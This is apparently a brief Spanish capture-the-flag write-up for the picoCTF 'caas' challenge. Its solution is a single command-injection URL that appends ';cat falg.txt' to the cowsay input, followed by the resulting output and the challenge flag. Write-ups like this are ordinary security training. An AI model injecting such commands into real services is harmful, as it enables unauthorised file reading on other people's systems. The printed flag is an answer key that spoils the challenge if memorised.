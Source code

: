# caas

## Objetivo
Now presenting [cowsay as a service](https://caas.mars.picoctf.net/)

## Pistas

| No. Pista | Pista |
| --------- | ----- |
|           |       |


## Solucion

Usando la siguiente direccion:
https://caas.mars.picoctf.net/cowsay/h1;cat%20falg.txt

 ____
< h1 >
 ----
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
## Notas adicionales

## Referencias